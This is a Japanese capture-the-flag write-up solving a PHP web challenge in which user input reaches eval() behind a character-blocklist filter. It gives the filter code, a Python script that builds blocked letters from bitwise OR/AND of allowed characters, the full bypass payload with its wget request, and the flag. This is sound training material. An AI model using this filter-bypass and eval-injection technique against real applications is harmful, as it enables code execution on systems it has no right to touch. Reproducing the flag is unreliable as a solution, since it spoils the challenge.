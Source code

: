 # "The W":Web:15pts
Those Wutang Boys are at it again, hoot'n and holler'n and waking up the kids. I tried to put a stop to them but they are so damn clever. Just the other day I heard them yell "Wutang4Life" and they picked up and ran off with my flag... I tell ya, kids these days have it too easy...  
In Scope: http://web01.ctf313.com/  
Hack the web app only. You have the source code, no need to brute force or spam anything.  
Server and Infrastructure are out of scope and will result in an automatic ban and public shaming for being a 💩.  

# Solution
URLにアクセスするとphpソースが表示される。  
Web Challenge: "The W"  
[site.png](site/site.png)  
オレオレWAFを突破すれば良いようだ。  
WAFを詳しく見てやる。  
```php
function wutang_waf($str){

  for($i=0; $i<=strlen($str)-1; $i++) {

    if ((ord($str[$i])<32) or (ord($str[$i])>126)) {
      header("HTTP/1.1 416 Range Not Satisfiable");
      exit;
    }

  }

  $blklst = ['[A-VX-Za-z]',' ','\t','\r','\n','\'','""','`','\[','\]','\$','\\','\^','~'];
  foreach ($blklst as $blkitem) {
    if (preg_match('/' . $blkitem . '/m', $str)) {
      header("HTTP/1.1 403 Forbidden");
      exit;
    }
  }
}
```
`0123456789W!"#%&()*+,-./:;<=>?@_{|}`が通るようだ。  
`""`はブロックされるが、`"W"`のように文字を挟めばバイパスできる。  
ある程度の文字と`&`と`|`と`.`があるので、phpfuckの要領で任意の文字を構成できそうだ。  
以下を見ると、シェルをとるのではなく`Wutang4Life`をechoすれば良いようだ(バッファを見ている)。  
```php
if(!isset($_GET['yell'])) {
  show_source(__FILE__);
} else {
  $str = $_GET['yell'];
  wutang_waf($str);
  ob_start();
  $res = eval("echo " . $str . ";");
  $out = ob_get_contents();
  ob_end_clean();
  if ($out === "Wutang4Life") {
      echo $flag;
  } else {
    echo htmlspecialchars($out, ENT_QUOTES);
  }
}
```
`Wutang4Life`になる文字を組み立てればよい。  
以下のoreorephpf.pyを用いて必要な文字を抽出する。  
```python:oreorephpf.py
import sys

chars = '0123456789W!"#%&()*+,-./:;<=>?@_{|}'
new_chars = ""

if len(sys.argv) != 1:
    chars += sys.argv[1]


for i in chars:
    for j in chars:
        #And
        c = chr(ord(i) & ord(j))
        if (not c in chars) and (not c in new_chars) and (c in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"):
            print("(\"{}\"%26\"{}\"):{}".format(i, j, c))
            new_chars += c
        #Or
        c = chr(ord(i) | ord(j))
        if (not c in chars) and (not c in new_chars) and (c in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"):
            print("(\"{}\"%7C\"{}\"):{}".format(i, j, c))
            new_chars += c

print(new_chars)
```
実行する。  
```bash
$ python oreorephpf.py | grep :u
("5"%7C"@"):u
$ python oreorephpf.py | grep :t
("4"%7C"@"):t
$ python oreorephpf.py | grep :a
("!"%7C"@"):a
$ python oreorephpf.py | grep :n
("."%7C"@"):n
$ python oreorephpf.py | grep :g
$ python oreorephpf.py | grep :L
$ python oreorephpf.py | grep :i
(")"%7C"@"):i
$ python oreorephpf.py | grep :f
("&"%7C"@"):f
$ python oreorephpf.py | grep :e
("%"%7C"@"):e
$ python oreorephpf.py | grep -v :
wpqrstuvxySTUabcefhijklmnoz
$ python oreorephpf.py wpqrstuvxySTUabcefhijklmnoz | grep :g
("!"%7C"f"):g
$ python oreorephpf.py wpqrstuvxySTUabcefhijklmnoz | grep :L
("_"%26"l"):L
$ python oreorephpf.py wpqrstuvxySTUabcefhijklmnoz | grep :l
$ python oreorephpf.py | grep :l
(","%7C"@"):l
```
よってWAFを突破する文字列は以下のようになる。  
`&`を`%26`に置き換える必要がある。  
`("W").("5"%7C"@").("4"%7C"@").("!"%7C"@").("."%7C"@").("!"%7C("%26"%7C"@")).("4").("_"%26(","%7C"@")).(")"%7C"@").("%26"%7C"@").("%"%7C"@")`  
リクエストを投げる。  
```bash
$ wget -O - -q 'http://web01.ctf313.com/?yell=("W").("5"%7C"@").("4"%7C"@").("!"%7C"@").("."%7C"@").("!"%7C("%26"%7C"@")).("4").("_"%26(","%7C"@")).(")"%7C"@").("%26"%7C"@").("%"%7C"@")'
flag{Wu7an9-83-Wi23-wI7h-73H-8I72}
```
flagが得られた。  

## flag{Wu7an9-83-Wi23-wI7h-73H-8I72}